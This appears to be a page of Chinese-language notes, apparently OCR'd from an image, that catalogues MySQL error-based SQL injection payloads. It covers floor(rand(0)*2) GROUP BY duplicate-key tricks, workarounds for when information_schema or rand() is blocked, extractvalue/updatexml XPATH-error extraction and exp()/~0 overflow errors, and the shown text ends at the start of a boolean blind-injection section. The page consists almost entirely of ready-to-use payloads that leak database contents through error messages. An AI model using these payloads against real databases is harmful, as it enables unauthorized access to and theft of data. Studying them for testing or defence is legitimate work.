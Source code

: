 ### 1、基本语句

```mysql
SELECT count(*), 
concat(database(),0x3a,floor(rand(0)*2))a 
FROM information_schema.schemata 
GROUP BY a;
```

### 2、简写

```mysql
SELECT count(*) 
FROM information_schema.schemata 
GROUP BY concat(database(),0x3a,floor(rand(0)*2));
```

### 3、关键表被禁用

```mysql
SELECT count(*) 
FROM (SELECT 1 UNION SELECT 2 UNION SELECT 3)a 
GROUP BY concat(database(),0x3a,floor(rand(0)*2));
```

### 4、rand()被禁用

```mysql
SELECT min(@a:=1) 
FROM information_schema.schemata 
GROUP BY concat(database(),0x3a,(@a:=(@a+1)%2));
```

### 5、利用XPATH语法错误

```mysql
SELECT extractvalue(1,concat(0x7e,database()));
SELECT updatexml(1,concat(0x7e,database(),0x7e),1);
```

### 6、利用溢出报错

```mysql
SELECT ～0 + !(SELECT * FROM (SELECT database())a);
SELECT exp(~(SELECT * FROM (SELECT database())a));
# 似乎在一些版本中这个漏洞被修复了
```

## 二、基于布尔的盲注

### 1、算术运算符

+、-、\*、/、%、DIV、MOD
